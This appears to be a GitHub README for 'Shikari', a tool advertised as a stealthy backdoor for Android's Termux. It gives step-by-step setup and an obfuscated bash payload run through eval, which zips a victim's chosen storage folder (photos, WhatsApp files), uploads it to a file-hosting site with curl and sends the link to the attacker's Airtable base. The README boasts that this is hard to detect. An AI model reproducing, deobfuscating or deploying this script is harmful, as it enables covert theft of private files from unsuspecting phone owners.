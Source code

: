 
<h1 align="center">
  <br>
  <a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/shikari.gif" alt=""></a>
  <br>
  Shikari
  <br>
</h1>

<h4 align="center">Create Backdoor in Termux</h4>

## Features

You can get any files of victim 🌚</br>
- /storage/DCIM
- /storage/Pictures
- /storage/WhatsApp 
- /storage/Anything..;)

All things happen in background, not easily detectable ;)

## Tutorial
### Step 1
- [Create New Account](https://airtable.com/invite/r/GNqgr5Ps)
### Step 2
- Create New Base
- Create Table
- Create 2 Field
    + Field 1 : Name
    + Field 2 : link
- Check Screenshot for Understanding.

<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-183933.jpg"></a>
### Step 3
Note Down following ids.
+ [API ID](https://airtable.com/account)
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-185807.jpg"></a>
+ [Base ID](https://airtable.com/api)
<a href="#"><img src="https://d3drh3gsi3sqc6.cloudfront.net/images/airtable-find-base-id.png"></a>
+ Table Name
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-192936.jpg"></a>
### Step 4
copy below code and paste it in your Bash/Shell Script.

```
#!/bin/bash

api=
base=
table=
folder=

z="
";cCz=' {" ';mCz='/Shi';kBz='om/v';hCz=' "Na';NCz='Cont';eCz='fiel';VBz='nk2';TBz=' lin';lCz='4You';Cz='shik';iBz='rtab';jBz='le.c';uz='[]=@';xCz=' '\''"'\''';Jz='echo';iz='$fol';ICz='eare';BDz='}'\''" ';XCz='  "'\''';mBz='ase/';FCz='oriz';Xz='all ';KCz='pi" ';MCz='ipt2';jz='der ';ADz=']" >';Bz='pt=.';qBz='crip';kCz='Bhai';rBz='t2';bCz='    ';xz='s://';fBz='tps:';Az='scri';hz='red/';xBz=' "" ';YBz='dev/';uCz='$(ca';TCz='on" ';Yz='zip ';cBz='v -X';tBz='tf "';Wz='inst';qCz='ript';RBz=' htt';nz=' /de';oCz='" >>';HBz=' > l';VCz='data';tz='iles';vz='ari.';ABz='ninj';aCz=': ["';Gz='k';CBz='load';Ez='pt2=';gBz='//ap';OCz='ent-';PBz='2 | ';XBz='&> /';bBz='rl -';eBz='T ht';Fz='.hac';nBz='$tab';Tz='vice';UBz='f li';ez='hika';JCz='r $a';Zz='-y &';wCz='nk)"';dCz='   "';GCz='atio';wz='http';Nz='/sha';aBz=' "cu';Vz='pkg ';IBz='ink2';Iz=' \'\''';pz='ll';iCz='me"'\''';lBz='0/$b';SCz='n/js';Lz='/sto';jCz=': " ';kz='devi';BBz='a/up';PCz='Type';EBz='?out';cz='ull';vCz='t li';mz='g &>';tCz=' "'\'' ';pBz='> $s';fCz='ds"'\''';QCz=': ap';bz='ev/n';lz='celo';vBz=' >> ';ACz='  -H';pCz=' $sc';sBz='prin';Mz='rage';rCz='2';dz='-r s';FBz='put=';MBz='f de';LCz='$scr';CCz='tf '\''';DBz='.php';ECz='Auth';QBz='grep';Pz='term';Hz='ps='\''';WBz='rvf ';az='> /d';Uz='log';OBz='link';rz=' -i ';fz='ri.z';NBz='cat ';SBz='ps >';WCz=' '\''{"';Kz='cd ~';HCz='n: B';Oz='red';sCz='," >';wBz='pt2';BCz=' " >';UCz='  --';qz='curl';uBz='$ps"';RCz='plic';sz='-F f';ZCz='rds"';yCz='}" >';YCz='reco';hBz='i.ai';gz='ip ~';GBz='text';yBz='>> $';DCz='"'\'' >';Rz='nfo ';nCz='kari';Dz='ari';oBz='le" ';KBz='1';yz='tmp.';Sz='> de';dBz=' POS';oz='v/nu';JBz=' 2>&';LBz='rm -';ZBz='null';gCz=': {"';Qz='ux-i';
eval "$Az$Bz$Cz$Dz$z$Az$Ez$Fz$Gz$z$Hz$Iz$z$Jz$z$Kz$Lz$Mz$Nz$Oz$z$Pz$Qz$Rz$Sz$Tz$Uz$z$Vz$Wz$Xz$Yz$Zz$az$bz$cz$z$Yz$dz$ez$fz$gz$Lz$Mz$Nz$hz$iz$jz$kz$lz$mz$nz$oz$pz$z$qz$rz$sz$tz$uz$Cz$vz$Yz$wz$xz$yz$ABz$BBz$CBz$DBz$EBz$FBz$GBz$HBz$IBz$JBz$KBz$z$LBz$MBz$Tz$Uz$z$NBz$OBz$PBz$QBz$RBz$SBz$TBz$Gz$z$LBz$UBz$VBz$z$LBz$WBz$Cz$vz$Yz$XBz$YBz$ZBz$z$Jz$aBz$bBz$cBz$dBz$eBz$fBz$gBz$hBz$iBz$jBz$kBz$lBz$mBz$nBz$oBz$pBz$qBz$rBz$z$sBz$tBz$uBz$vBz$Az$wBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$ACz$BCz$pBz$qBz$rBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$ECz$FCz$GCz$HCz$ICz$JCz$KCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$uBz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$ACz$BCz$pBz$qBz$rBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$NCz$OCz$PCz$QCz$RCz$GCz$SCz$TCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$uBz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$UCz$VCz$WCz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$XCz$vBz$LCz$MCz$z$sBz$tBz$YCz$ZCz$vBz$LCz$MCz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$aCz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$bCz$cCz$yBz$Az$wBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$bCz$dCz$eCz$fCz$vBz$LCz$MCz$z$sBz$tBz$gCz$vBz$LCz$MCz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$bCz$bCz$hCz$iCz$vBz$LCz$MCz$z$sBz$tBz$jCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$kCz$lCz$mCz$nCz$oCz$pCz$qCz$rCz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$sCz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$CCz$bCz$bCz$tCz$yBz$Az$wBz$z$sBz$tBz$OBz$oCz$pCz$qCz$rCz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$jCz$yBz$Az$wBz$z$sBz$CCz$DCz$pBz$qBz$rBz$z$sBz$tBz$uCz$vCz$wCz$vBz$LCz$MCz$z$Jz$xCz$vBz$LCz$MCz$z$sBz$tBz$bCz$bCz$bCz$yCz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$bCz$bCz$yCz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$bCz$ADz$pBz$qBz$rBz$z$Jz$xBz$yBz$Az$wBz$z$sBz$tBz$BDz$yBz$Az$wBz$z$Jz$xBz$yBz$Az$wBz"
```

+ Add your API id, base id and table id without space.
+ Enter your folder name you want to Hack. (ex. DCIM, Pictures, Download, Music)

### Step 5

+ Upload this script on GitHub.
+ Download it through wget command.


### Tutorials

- [S!M Hunter Tutorial](https://bhai4you.blogspot.com/2022/03/sim-hunter-sim-information-gathering.html?m=1)
